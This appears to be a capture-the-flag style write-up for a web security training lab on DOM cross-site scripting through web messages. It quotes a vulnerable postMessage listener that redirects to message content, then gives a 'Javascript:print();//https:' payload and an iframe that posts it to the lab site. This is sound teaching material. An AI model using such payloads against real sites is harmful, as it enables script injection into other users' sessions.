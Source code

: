 
### DOM XSS using web messages and a JavaScript URL : PRACTITIONER

---


> We are looking for any script that is misconfigured and contains a sink.
> Scanning through the website source code we see this script that deals with web messages.

```HTML
<script>
	window.addEventListener('message', function(e) {
	    var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
	        location.href = url;
        }
    }, false);
</script>
```

> What this does is that takes the message contents and checks for `http:` and `https:`.
> If either of them are found, then it redirects the window to the `url`, or the content of the message.

> Since this code only looks for the presence of either `http` or `https`, it just means we can place it anywhere in the message content, and have it not affect our XSS payload.
```javascript
Javascript:print();//https:
```

> To send a message, we can use an `iframe` that once loads, sends a message with the above payload.

```HTML
<iframe src="https://0a570049030c533485d3ba51009b0050.web-security-academy.net/" 
		onload="this.contentWindow.postMessage('Javascript:print();//https:','*')"
>
```

> Pasting this payload in the exploit server.

